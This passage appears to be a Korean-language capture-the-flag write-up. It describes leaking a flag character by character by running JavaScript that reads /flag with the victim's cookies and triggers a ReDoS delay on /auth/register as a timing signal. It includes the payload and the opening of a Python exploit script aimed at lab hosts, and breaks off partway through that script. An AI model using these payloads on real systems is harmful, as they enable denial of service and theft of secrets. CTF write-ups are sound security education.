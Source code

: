 ```javascript
params.append("password", "test");
params.append("email", "a".repeat(32) + "!");

fetch('/auth/register', {
    method: 'POST',
    body: params
});
```
해당 JS를 실행시켜 `/auth/register`에 존재하는 redos를 트리거하여 서비스를 지연시키는 것으로 FLAG를 한글자씩 Leak하는것이 가능합니다.  

아래는 FLAG의 n번째 자리의 문자열이 N인 경우 Redos를 트리거하여 지연을 일으키는 payload 입니다.  
(💡 payload의 강도는 서버 환경에 따라 조정합니다.)
```javascript
/*\x00*/(async () => {
    const res = await fetch('/flag', {
        credentials: 'include'
    });
    const data = await res.json();
    if (data.flag[n] === 'N') {
        const num = Array.from({ length: 5 }, () => Math.floor(Math.random() * 10)).join("");
        const params = new URLSearchParams();
        params.append("username", "test" + num);
        params.append("password", "test");
        params.append("email", "a".repeat(32) + "!");

        fetch('/auth/register', {
            method: 'POST',
            body: params
        });
    }
})();
```
이러한 방식으로 FLAG를 한글자씩 LEAK하여 FLAG를 획득합니다.  
```python
import requests
import random
import threading
import time
import re

reservation = 'http://localhost:3000'
reservation_internal = 'http://192.168.200.100:3000'
board = 'http://localhost:5000'
board_internal = 'http://192.168.200.200:5000'

reservation_session = requests.Session()
board_session = requests.Session()

threshold = 31

def get_temp_session(username, password):
    s = requests.Session()
    s.post(f"{board}/auth/login",
           data={"username": username, "password": password},
           headers={"Connection": "close"},
           timeout=(3, 30))
    return s

def reservation_register(username, password, email):
    res = reservation_session.post(f"{reservation}/auth/register", data={
        "username": username,
        "password": password,
        "email": email
    }, timeout=60)
```